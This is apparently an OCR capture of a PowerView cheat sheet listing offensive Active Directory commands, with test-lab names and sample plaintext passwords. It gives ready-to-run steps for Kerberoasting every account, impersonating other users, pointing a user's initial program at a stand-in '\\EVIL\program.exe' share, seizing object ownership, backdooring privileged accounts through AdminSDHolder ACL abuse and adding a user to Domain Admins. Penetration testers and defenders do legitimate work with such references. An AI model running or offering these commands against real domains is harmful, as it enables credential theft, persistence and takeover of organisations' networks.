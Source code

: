 # SID --> NAME
```
"S-1-5-21-1874506631-3219952063-538504511-2136" | Convert-SidToName
```
# Without "-Identity" kerberoast all possible users
```
Invoke-Kerberoast [-Identity websvc] 
```
# use an alterate creadential for any function
```
$SecPassword = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Get-DomainUser -Credential $Cred
```
# if running in -sta mode, impersonate another credential a la "runas /netonly"
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```
## ... action
```
Invoke-RevertToSelf
```
# Set Values:
## set the specified property for the given user identity
```
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```
## Set the owner of 'dfm' in the current domain to 'harmj0y'
```
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```
## backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```
## Add user to 'Domain Admins'
```
Add-NetGroupUser -Username username -GroupName 'Domain Admins' -Domain my.domain.local
```



